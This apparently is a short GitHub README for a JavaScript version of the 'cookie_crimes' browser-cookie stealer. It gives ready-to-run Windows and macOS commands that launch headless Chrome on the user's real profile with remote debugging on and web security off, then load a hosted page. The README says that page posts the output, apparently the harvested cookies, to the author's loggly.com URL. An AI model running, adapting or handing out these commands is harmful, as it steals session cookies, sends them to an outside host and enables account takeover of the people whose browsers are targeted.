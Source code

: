This is a javascript implementation of the cookie_crims tool by @mangopdf

Running the command below will run the javascript found in the index.html file in this repo which has been setup using Github Pages. It is currently harcoded to post the script output to my own loggly.com URL. Host is on your own github to control the script completely.

# Windows

```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir=%localAppData%"\Google\Chrome\User Data\Default" https://clr2of8.github.io/TestCC/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" https://clr2of8.github.io/TestCC/```
